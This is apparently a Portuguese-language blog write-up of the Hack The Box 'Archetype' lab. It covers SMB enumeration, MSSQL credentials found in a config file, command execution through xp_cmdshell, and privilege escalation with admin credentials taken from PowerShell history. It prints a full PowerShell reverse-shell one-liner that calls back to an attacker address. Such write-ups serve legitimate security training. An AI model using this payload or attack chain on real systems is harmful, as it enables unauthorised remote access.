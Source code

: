 ```yaml
---
title: HTB Archetype Writeup
author: Hastur
date: 2021-09-05 21:00:00 -0300
categories: [Writeups, Hack The Box]
tags: [HTB, Starting point, Windows, Very Easy, MSSQL]
image: /img/htb/htb-archetype-logo.png
alt: "HTB Archetype Writeup"
---
```


<img src="/img/htb/htb-archetype-logo.png">

<br>


| Nome | Archetype       |
|------|-------------|
|IP    | 10.10.10.27|
|Pontos| 0          |
|OS    | Windows    |
|Nível | Very Easy  |

<br>

## RECON

### Nmap
```bash
┌──(hastur㉿hastur)-[~/Archetype]
└─$ sudo nmap -v -p- -sCV -O -Pn 10.10.10.27 --min-rate=512
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-09-05T19:35:06
| Not valid after:  2051-09-05T19:35:06
| MD5:   0f97 d62c 8d46 e595 8b83 982b eb14 769f
|_SHA-1: 795d c811 74ec cd90 80e3 27d6 bb77 796c a2f0 d9d4
|_ssl-date: 2021-09-05T19:47:03+00:00; -35m18s from scanner time.
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 48m42s, deviation: 3h07m52s, median: -35m18s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-05T12:46:55-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-05T19:46:54
|_  start_date: N/A


```
Encontramos várias portas abertas nesta máqina, vamo começar pela `445 - SMB`.

### SMB

Vamos tentar uma conex]ao sem credenciais para verificar null session no SMB.

<img src="/img/htb/htb-archetype-1.png">

Temos acesso a algubs compartilhamentos, em expecial `backups`, vamos enumerá-lo.

<img src="/img/htb/htb-archetype-2.png">

Encontramos o arquivo, `prod.dtsConfig`, após baixarmos, e analizarmos, encontramos algumas informaçõs valiosas.

<img src="/img/htb/htb-archetype-3.png">

Ecnontramos as credenciais para um MSSQL: `ARCHETYPE\sql_svc:M3g4c0rp123`.

Em posse das credenciais, podemos tentar uma conex]ao remota utilizando o `mssqlclient.py`.

<img src="/img/htb/htb-archetype-4.png">

Conseguimos um acesso ao MSSQL, ótimo!

Podemos utilizar a função `IS_SRVROLEMEMBER`, para verificar se o usuário `sql_svc` tem privilégios administrativos.

<img src="/img/htb/htb-archetype-5.png">

O MSSQL retornou `1`, o que significa que temos privilégios administrativos.

Agora precisamos de uma forma de conseguir a leak de algum arquivo, ou melhor, um shell.

Existe uma funsão do MSSQL que permite executar comandos via query, podemos encontrar na pŕopria documentação da Microsoft [aqui](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15).

Vamos seguir os passos da documentação e testar algum comando.

<img src="/img/htb/htb-archetype-6.png">

Ótimo, conseguimos um RCE através do MSSQL, agora podemos tentar um reverse shell através de comandos no PowerSHell.

Primeiro vamos criar um payload de uma linha em power shell e salvá-lo no arquivo `shell.ps1`.

```bash
┌──(hastur㉿hastur)-[~/Archetype]
└─$ cat shell.ps1
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.251",8443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Agora vamos iniciar um server http com python `python3 -m http.server 80`.

<img src="/img/htb/htb-archetype-7.png">

Agora setamos um `netcat` na porta 8443 que setamos em nosso payload.

<img src="/img/htb/htb-archetype-8.png">

Com tudo pronto, podemos enviar um payload em Power Shell no MSSQL, que vai fazer o download do script em nosso HTTP server e em seguida executá-lo, nos dando um reverse shell no netcat que abrimos.

<img src="/img/htb/htb-archetype-9.png">

Se olharmos em nosso servidor HTTP, podemos ver que houve uma requisição vinda da Archetype.

<img src="/img/htb/htb-archetype-10.png">

E em nosso netcat, temos nosso reverse shell!!!

<img src="/img/htb/htb-archetype-11.png">

Ótimo, estamos dentro do host da Archetype, dentro do Desktop do usuário `sql_svc`, encontramos a flag do usuário.

<img src="/img/htb/htb-archetype-12.png">

## Escalação de privilégios

Após um bom tempo de enumeração local, decidi checar se há algum histórico do Power Shell no usuário e descobri uma informação extremamente importante.

<img src="/img/htb/htb-archetype-13.png">

Encontramos as credenciais do administrador: `administrator:MEGACORP_4dm1n!!`.

Em posse destas credenciais, podemos tentar um acesso remoto ao host utilizando o `psexec.py`.

<img src="/img/htb/htb-archetype-14.png">

E conseguimos nosso shell com privilégios administrativos no Host Archetype.

A flag do Administrator está em seu Desktop.

<img src="/img/htb/htb-archetype-15.png">


E comprometemos o server!!
<br>

<img src="/img/htb/hackerman.gif">
<br>



